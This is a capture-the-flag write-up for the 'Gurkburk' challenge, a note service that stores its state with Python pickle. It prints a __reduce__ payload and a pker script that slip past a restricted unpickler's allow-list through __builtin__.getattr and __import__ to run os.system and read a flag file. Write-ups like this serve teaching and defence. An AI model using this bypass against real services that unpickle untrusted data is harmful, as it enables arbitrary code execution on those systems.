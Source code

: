 # Gurkburk
 - Category: Misc
 - Points: 96
 - Solved by: `fkil`


### Description

A simple note taking service that lets you save and load the current state.

### Solution

After inspecting the save-string we received, we found out that the service uses the exploitable python `pickle` module to serialize and unserialize the state.

When trying the simple payload:

```python
class payload(object):
    def __reduce__(self):
       comm = "cat ./flag.txt"
       return os.system, (comm,)
```
We get the following error:
```
pickle.UnpicklingError: Your pickle is trying to load something sneaky. Only the modules __main__, __builtin__ and copyreg are allowed. eval and exec are not allowed. 'posix.system' is forbidden
```

Note, that the `pickle` format itself is an interpreted language and you can create arbitrary
sequences of calls.

We then used `__builtin__.getattr` and `__builtin__.__import__` to get `os.system` and
call it with `'cat ./flag.txt'`.

We created our payload using `pker`(https://github.com/eddieivan01/pker) with the following source:
```python
_getattr = GLOBAL('__builtin__', 'getattr')
_import = GLOBAL('__builtin__', '__import__')
_os = _import('os')
_system = _getattr(_os, 'system')
_system('cat ./flag.txt')
return
```
